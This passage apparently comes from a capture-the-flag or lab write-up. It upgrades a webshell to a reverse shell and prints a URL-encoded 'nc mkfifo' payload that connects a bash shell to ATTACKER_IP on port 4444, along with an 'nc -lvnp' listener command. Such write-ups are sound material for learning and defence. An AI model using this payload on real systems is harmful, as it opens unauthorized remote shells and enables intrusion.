 ![webshell test](/images/seasurf/webshell-test.png)

Perfect! Now we can upgrade this to a reverse shell.
This usually takes some trial and error to find a payload
that works, but I used the `nc mkfifo` payload with 
`URL Encoding` generated by
[this site](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20ATTACKER_IP%204444%20%3E%2Ftmp%2Ff
```

Now we just need to set up a listener to catch the
request, and then send the payload

```bash
nc -lvnp
```

![reverse shell](/images/seasurf/revshell.png)
